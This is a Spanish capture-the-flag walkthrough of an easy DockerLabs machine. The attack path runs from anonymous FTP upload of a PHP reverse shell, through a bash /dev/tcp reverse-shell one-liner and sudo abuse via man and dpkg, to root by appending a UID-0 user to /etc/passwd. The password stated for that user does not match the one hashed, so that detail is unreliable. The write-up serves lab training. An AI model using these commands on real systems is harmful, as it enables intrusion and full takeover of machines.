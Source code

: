 ## Información

**Plataforma:** DockerLabs
**Dificultad:** Easy

---
## Enumeración

### Nmap

```bash
❯ sudo nmap -p- --open -sS --min-rate 5000 -n -vvv -Pn 172.17.0.2
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

> Puertos encontrados: 21,80
#### Escáner de puertos específicos:
```bash
❯ nmap -p21,80 -sCV 172.17.0.2
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    2 0        0            4096 Jan 01  1970 css
| drwxr-xr-x    2 0        0            4096 Apr 28 18:28 heustonn-html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28 18:32 index.html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33           4096 Apr 28 21:08 upload [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Mantenimiento
|_http-server-header: Apache/2.4.58 (Ubuntu)
Service Info: OS: Unix

```

## Paso a Paso

Notamos en el reporte específico que el ftp tiene acceso anon, que al listar nos muestra archivos html, lo que nos da indicio de que está posicionado en la carpeta raíz del puerto 80. Lo primero que se me ocurre es intentar subir un archivo para obtener una shell.

![image](https://github.com/user-attachments/assets/12e79185-60f2-4fd6-b755-8a490eab4dfd)


Al comparar el index del ftp y del puerto 80 notamos que son exactamente el mismo
![image](https://github.com/user-attachments/assets/6c7a2093-fd8e-4106-8624-20bae22ee26f)



Haré una rev shell con msfvenom (Me estoy preparando para el eJPT por lo que intento usar esta herramienta, pero realmente con un php monkey vendría mejor):
![image](https://github.com/user-attachments/assets/2cb83a3d-4fe4-425b-a365-0cf5dcb157ac)


Notamos que no tenemos permisos para subir archivos en la raiz del ftp
![image](https://github.com/user-attachments/assets/004f58b7-2e75-4d85-b87d-e2924d5f6583)


Pero también, gracias al nmap especifico, notamos que en la carpeta uploads tenemos permisos de escritura, igual corroboramos con un ls -la:

![image](https://github.com/user-attachments/assets/eb038b75-c8dc-492b-8a1e-ee81f70462dd)


Lo subimos ahí

![image](https://github.com/user-attachments/assets/f724d774-30dc-4a42-b98f-72995e415258)


Abrimos el navegador en la ruta del upload

![image](https://github.com/user-attachments/assets/a23997a6-cf0f-4fd1-8953-888773ce74d9)


nos ponemos en escucha con nc

![image](https://github.com/user-attachments/assets/00d024a0-7b59-4491-8d19-9708802c0afd)


Presionamos el archivo.php en la web y listo

![image](https://github.com/user-attachments/assets/3623827d-9d6a-4a6b-8312-854b3bd052da)


Como lo hice con msfvenom nos migramos a otro nc usando un oneliner en paralelo, por lo que nos ponemos en escucha en otro puerto no usado (por ej el 5555)

`bash -c "bash -i >& /dev/tcp/172.17.0.1/5555 0>&1"`

![image](https://github.com/user-attachments/assets/5057cf4d-9c20-44b0-979a-aa878daec81b)


![image](https://github.com/user-attachments/assets/412866d5-97d7-486f-b321-62e07c90f6f0)

y listo, tenemos shell como usuario www-data

## Pivoteando a user

#### Moviendo a user pingu
Notamos que al hacer un sudo -l tenemos permisos sudo como el user pingu del man

![image](https://github.com/user-attachments/assets/365d733a-0fe3-4376-83f2-f19fc6762d1a)


Tiramos de gtfobins

![image](https://github.com/user-attachments/assets/bc009c9e-b71b-4a5d-a209-3f6e6d7774be)


![image](https://github.com/user-attachments/assets/627a5f86-8ba4-4cd3-808f-65e706ce5fa5)


y listo, migramos al user pingu

#### Moviendo hacia user gladyss
Notamos que al tirar un sudo -l tenemos permisos para usar nmap y dpkg como gladys

Al leer la info de nmap en gtfobins, al intentarlo no funciona, esto es debido a que la máquina víctima tiene una versión de nmap en donde ya no sirve el --interactive por lo que optamos por leer la info del dpkg
![image](https://github.com/user-attachments/assets/83a48378-aac5-41e5-a647-d6b7f57bb686)


y listo:
![image](https://github.com/user-attachments/assets/312a6269-3136-4f77-821b-bf0b8fff07b8)


ya tenemos acceso a gladys y al hacer un sudo -l notamos que tiene permisos sudo en el chown.

## Escalada de privilegios

Me di cuenta que no tiene nano la máquina por lo que no puedo editar el etc sudoers, lo que podemos hacer es cambiarle los permisos user:group al /etc/passwd y dárselos a gladys, así podemos crear un user con privilegios (Lo que hace root es el código 0:0 es decir el id de usuario y grupo, 0 corresponde a root)

para esto creamos un hash de contraseña con:

`openssl passwd hola123`
![image](https://github.com/user-attachments/assets/97956565-f814-41a5-80ef-9e0db7fa5bf0)


Luego usamos ese hash para el usuario nuevo haciendo echo

`echo 'rootcito:$1$dsFeRo/J$sd7nh6Js.KWNnFct6hP2y1:0:0::/home/rootcito:/bin/bash` >> /etc/passwd`

![image](https://github.com/user-attachments/assets/9ebe71bd-593e-445b-92e3-ef44f200e660)


notamos que funcionó, hacemos un **su rootcito** con la clave 123123

![image](https://github.com/user-attachments/assets/703f4f07-2cad-4271-9d12-1cafe2306c08)


**y listo! Máquina lista**

---
